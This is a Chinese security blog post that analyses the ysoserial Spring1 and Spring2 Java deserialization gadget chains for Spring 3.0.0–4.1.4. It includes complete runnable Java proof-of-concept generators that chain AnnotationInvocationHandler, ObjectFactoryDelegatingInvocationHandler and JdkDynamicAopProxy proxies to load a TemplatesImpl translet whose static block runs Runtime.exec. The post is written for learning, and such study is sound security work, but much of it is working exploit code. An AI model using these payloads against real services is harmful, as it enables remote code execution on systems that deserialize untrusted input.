# java反序列化之yso中的spring链子分析及利用-先知社区

> **来源**: https://xz.aliyun.com/news/17923  
> **文章ID**: 17923

---

# 前言

最近开始学习spring链子，看网上分析spring链子的文章不多，讲的也比较简单，还都是yso中的spring1的链子分析，特此出一篇文章来详细分析spring1和spring2链子以及自己的关于它的其他利用姿势

下面所用的java版本都是8u65

# Spring1

spring版本范围在3.0.0到4.1.4

依赖

```
    <dependencies>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>4.1.4.RELEASE</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-beans</artifactId>
            <version>4.1.4.RELEASE</version>
        </dependency>
    </dependencies>
```

## 链子分析

链子如下所示：

```
/*
    Gadget chain:
        ObjectInputStream.readObject()
            SerializableTypeWrapper.MethodInvokeTypeProvider.readObject()
                SerializableTypeWrapper.TypeProvider(Proxy).getType()
                    AnnotationInvocationHandler.invoke()
                        HashMap.get()
                ReflectionUtils.findMethod()
                SerializableTypeWrapper.TypeProvider(Proxy).getType()
                    AnnotationInvocationHandler.invoke()
                        HashMap.get()
                ReflectionUtils.invokeMethod()
                    Method.invoke()
                        Templates(Proxy).newTransformer()
                            AutowireUtils.ObjectFactoryDelegatingInvocationHandler.invoke()
                                ObjectFactory(Proxy).getObject()
                                    AnnotationInvocationHandler.invoke()
                                        HashMap.get()
                                Method.invoke()
                                    TemplatesImpl.newTransformer()
                                        TemplatesImpl.getTransletInstance()
                                            TemplatesImpl.defineTransletClasses()
                                                TemplatesImpl.TransletClassLoader.defineClass()
                                                    Pwner*(Javassist-generated).<static init>
                                                        Runtime.exec()
 */
```

该链子运用到了三层动态代理，因此要求我们对动态代理的原理和利用要有一个较为清晰的认识，关于动态代理的相关知识可详见一篇文章：<https://cina666.github.io/2024/11/06/JDK%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86/>

好了接下来我们开始正式分析

首先我们先看入口，也就是`SerializableTypeWrapper.MethodInvokeTypeProvider.readObject()`



这里主要就是通过反射完成方法调用，按照我们之前所学的肯定就要想到调用`TemplatesImpl.newTransformer()`来实现任意类加载从而可以执行任意命令

因此我们正常思路下我需要让`this.provider.getType()`返回TemplatesImpl对象，`this.methodName`为newTransformer()方法，mehodName可直接通过反射赋值

看眼getType()方法


返回的是`this.result`，而在构造函数里面result是transient，不可被序列化的，相当于这个方法对我们来说是无用的，这个时候我们就要用上动态代理了，当调用getType()方法的时候通过InvocationHandler的处理让其返回的是TemplatesImpl对象，而在学cc链的过程中我们有接触到这么一个类AnnotationInvocationHandler，它的invoke方法可以通过控制memberValues的属性来让其返回特定的对象

```
    public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class<?>[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        if (paramTypes.length != 0)
            throw new AssertionError("Too many parameters for an annotation method");

        switch(member) {
        case "toString":
            return toStringImpl();
        case "hashCode":
            return hashCodeImpl();
        case "annotationType":
            return type;
        }

        // Handle annotation member accessors
        Object result = memberValues.get(member);

        if (result == null)
            throw new IncompleteAnnotationException(type, member);

        if (result instanceof ExceptionProxy)
            throw ((ExceptionProxy) result).generateException();

        if (result.getClass().isArray() && Array.getLength(result) != 0)
            result = cloneArray(result);

        return result;
    }
```

究其原因在于 memberValues是一个Map<String,Object>类型的对象，我们可以设置键为getType，值为我们的TemplatesImpl对象便可以返回我们想要的，链子不应该就这么结束了吗

其实不然，回看getType()方法，它要求的是要返回一个Type类型的数据，而我们返回TemplatesImpl对象的话便会产生类型上的冲突，强转不了导致报错

所以我们通过getType()还要返回一个动态代理对象，其必须实现Type和Templates接口

那么要选择哪一个InvocationHandler，才能够让我们在调用该动态代理对象的newTransformer方法的时候调用到我们TemplatesImpl对象的newTransfoemer方法呢

注意一下，上面讲的调用该动态代理对象的newTransformer方法是在ReflectionUtils.invokeMethod()里调用的

```
    public static Object invokeMethod(Method method, Object target) {
        return invokeMethod(method, target, new Object[0]);
    }
    
    public static Object invokeMethod(Method method, Object target, Object... args) {
        try {
            return method.invoke(target, args);
        }
        catch (Exception ex) {
            handleReflectionException(ex);
        }
        throw new IllegalStateException("Should never get here");
    }
```

yso的作者替我们找到了答案，即AutowireUtils.ObjectFactoryDelegatingInvocationHandler

看下它的invoke方法



重点关注`return method.invoke(this.objectFactory.getObject(), args);`，通过这个我们可以知道只要我们控制`this.objectFactory.getObject()`的返回值为我们的TemplatesImpl对象便可以了

又提到了控制，那么自然而然地就又想到了通过前面提到的动态代理，也就是让`this.objectFactory`为一个代理对象，其InvocationHandler自然就还是AnnotationInvocationHandler，但是这一次的memberValues的键就要换成getObject，值还是我们亲爱的TemplatesImpl对象

在这里我们便可以实现反射调用TemplatesImpl的newTransformer方法，从而实现任意类加载

## 调试

综上所述，我们的poc如下

```
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setField(templates, "_name", "aaa");
        byte[] code = Files.readAllBytes(Paths.get("E:\mycode\tmp\Test.class"));
        byte[][] codes = {code};
        setField(templates,"_bytecodes", codes);
        setField(templates,"_tfactory", new TransformerFactoryImpl());

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("getObject", templates);

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, hashMap);

        ObjectFactory<?> objectFactory = (ObjectFactory<?>) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);

        Class<?> clazz = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> constructor2 = clazz.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        InvocationHandler invocationHandler2 = (InvocationHandler) constructor2.newInstance(objectFactory);
        Type type = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, invocationHandler2);

        HashMap<Object, Object> hashMap2 = new HashMap<>();
        hashMap2.put("getType", type);
        InvocationHandler invocationHandler3 = (InvocationHandler) constructor.newInstance(Target.class, hashMap2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{typeProviderClass}, invocationHandler3);

        Class<?> class2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> constructor3 = class2.getDeclaredConstructors()[0];
        constructor3.setAccessible(true);

        Object object = constructor3.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        setField(object, "methodName", "newTransformer");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        byte[] serializedBytes = byteArrayOutputStream.toByteArray();
        String base64Encoded = Base64.getEncoder().encodeToString(serializedBytes);
        System.out.println(base64Encoded);

        byte[] decodedBytes = Base64.getDecoder().decode(base64Encoded);
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(decodedBytes));
        objectInputStream.readObject();
    }

    public static void setField(Object object,String fieldName,Object value) throws Exception{
        Class<?> c = object.getClass();
        Field field = c.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object,value);
    }
}
```

其中的Test.class文件的具体内容如下

```
package org.example;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Test extends AbstractTranslet {
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

那ok，我们进行调试



跟进getType方法，按照动态代理的原理，就会直接跳到InvocationHandler中的invoke方法处，如下：



从merberValues中读到了getType的值，也就是同时实现Type和Templates接口的代理对象，后返回result

通过`ReflectionUtils.findMethod`方法成功获取到了我们想要的newTransformer方法



往下走，跟进invokeMethod方法（该行中的`this.provider.getType()`返回的依然是同时实现Type和Templates接口的代理对象）



再跟进invoke方法



便走到了`AutowireUtils.ObjectFactoryDelegatingInvocationHandler.invoke()`方法中，method是newTrnasFormer方法所以都不会走进if里面

继续往下走



根据poc我们可以知道该处的this.objectFactory是一个代理对象，调用getObject()方法便会走到其InvocationHandler的invoke方法中

跟进



我们可以看到返回的result便是我们心心念念的TemplatesImpl对象

往下走，返回后，`return method.invoke(this.objectFactory.getObject(), args);`代码其实就是`return method.invoke(templates, args);`

成功调用TemplatesImpl的newTransformer方法，实现任意类加载



弹出计算器



# Spring2

依赖

```
    <dependencies>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>4.1.4.RELEASE</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-beans</artifactId>
            <version>4.1.4.RELEASE</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-aop</artifactId>
            <version>4.1.4.RELEASE</version>
        </dependency>
    </dependencies>
```

## 链子分析

链子如下：

```
/**
 * Gadget chain:
 * TemplatesImpl.newTransformer()
 * Method.invoke(Object, Object...)
 * AopUtils.invokeJoinpointUsingReflection(Object, Method, Object[])
 * JdkDynamicAopProxy.invoke(Object, Method, Object[])
 * $Proxy0.newTransformer()
 * Method.invoke(Object, Object...)
 * SerializableTypeWrapper$MethodInvokeTypeProvider.readObject(ObjectInputStream)
 *
 * @author mbechler
 */
```

该条链子与Spring1的前半条链子是一样的，入口都是`SerializableTypeWrapper$MethodInvokeTypeProvider.readObject`

这条链子主要是为了说明ObjectFactoryDelegatingInvocationHandler并不是关键所在，即使它被禁了我们依然有其他的方法可以成功实现任意类加载

这里所用的关键InvocationHandler除了AnnotationInvocationHandler之外就是JdkDynamicAopProxy

我们进该类的invoke方法看一手

```
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        MethodInvocation invocation;
        Object oldProxy = null;
        boolean setProxyContext = false;

        TargetSource targetSource = this.advised.targetSource;
        Class<?> targetClass = null;
        Object target = null;

        try {
            if (!this.equalsDefined && AopUtils.isEqualsMethod(method)) {
                // The target does not implement the equals(Object) method itself.
                return equals(args[0]);
            }
            if (!this.hashCodeDefined && AopUtils.isHashCodeMethod(method)) {
                // The target does not implement the hashCode() method itself.
                return hashCode();
            }
            if (!this.advised.opaque && method.getDeclaringClass().isInterface() &&
                    method.getDeclaringClass().isAssignableFrom(Advised.class)) {
                // Service invocations on ProxyConfig with the proxy config...
                return AopUtils.invokeJoinpointUsingReflection(this.advised, method, args);
            }

            Object retVal;

            if (this.advised.exposeProxy) {
                // Make invocation available if necessary.
                oldProxy = AopContext.setCurrentProxy(proxy);
                setProxyContext = true;
            }

            // May be null. Get as late as possible to minimize the time we "own" the target,
            // in case it comes from a pool.
            target = targetSource.getTarget();
            if (target != null) {
                targetClass = target.getClass();
            }

            // Get the interception chain for this method.
            List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);

            // Check whether we have any advice. If we don't, we can fallback on direct
            // reflective invocation of the target, and avoid creating a MethodInvocation.
            if (chain.isEmpty()) {
                // We can skip creating a MethodInvocation: just invoke the target directly
                // Note that the final invoker must be an InvokerInterceptor so we know it does
                // nothing but a reflective operation on the target, and no hot swapping or fancy proxying.
                retVal = AopUtils.invokeJoinpointUsingReflection(target, method, args);
            }
            .
            .
            .
            .
            .
            return retVal;
        }
        finally {
            if (target != null && !targetSource.isStatic()) {
                // Must have come from TargetSource.
                targetSource.releaseTarget(target);
            }
            if (setProxyContext) {
                // Restore old proxy.
                AopContext.setCurrentProxy(oldProxy);
            }
        }
    }
```

从提供的链子可知首先我们要关注的是`retVal = AopUtils.invokeJoinpointUsingReflection(target, method, args);`

跟进invokeJoinpointUsingReflection方法



里面就是简简单单对方法进行了反射调用

所以重点看参数target：`target = targetSource.getTarget();`

再看targetSource：`TargetSource targetSource = this.advised.targetSource;`

再跟进targetSource我们可以发现是在AdvisedSupport类里面调用了setTarget方法来进行赋值的



因此我们只需要在调用setTarget的时候将其参数target设为我们的TemplatesImpl对象就可以了，那么最后在invokeJoinpointUsingReflection方法里反射调用的就是我们的TemplatesImpl对象的newTransformer方法了

## 调试

综上所述，我们的poc如下：

```
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.target.SingletonTargetSource;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Poc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setField(templates, "_name", "aaa");
        byte[] code = Files.readAllBytes(Paths.get("E:\mycode\tmp\Test.class"));
        byte[][] codes = {code};
        setField(templates,"_bytecodes", codes);
        setField(templates,"_tfactory", new TransformerFactoryImpl());
        // 将 AdvisedSupport 的 target 属性值设置为 templates
        // AdvisedSupport 是 Spring AOP 的代理配置 managaer
        AdvisedSupport as = new AdvisedSupport();
        as.setTargetSource(new SingletonTargetSource(templates));
        // 使用 JdkDynamicAopProxy(实现了InvocationHandler接口) 来创建 Type 和 Templates 接口的动态代理
        // JdkDynamicAopProxy 的 advised 属性值为 as
        Class<?> c =Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(as);
        Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Type.class, Templates.class}, invocationHandler);

        Map<String, Object> hashMap = new HashMap<>();
        hashMap.put("getType", typeTemplatesProxy);

        Class<?> class2 = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor2 = class2.getDeclaredConstructor(Class.class, Map.class);
        constructor2.setAccessible(true);
        InvocationHandler invocationHandler2 = (InvocationHandler) constructor2.newInstance(Target.class, hashMap);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{typeProviderClass}, invocationHandler2);

        Class<?> class3 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> constructor3 = class3.getDeclaredConstructors()[0];
        constructor3.setAccessible(true);
        Object object = constructor3.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        setField(object, "methodName", "newTransformer");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        byte[] serializedBytes = byteArrayOutputStream.toByteArray();
        String base64Encoded = Base64.getEncoder().encodeToString(serializedBytes);
        System.out.println(base64Encoded);

        byte[] decodedBytes = Base64.getDecoder().decode(base64Encoded);
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(decodedBytes));
        objectInputStream.readObject();
    }

    public static void setField(Object object,String fieldName,Object value) throws Exception {
        Class<?> c = object.getClass();
        Field field = c.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object, value);
    }
}
```

前面的调试都是一样的，这边直接省略，直接跳到调用invokeMethod方法，跟进去



我们便来到了JdkDynamicAopProxy类的invoke方法里



继续往下走


target获取到了我们的TemplatesImpl对象

继续往下走


跟进

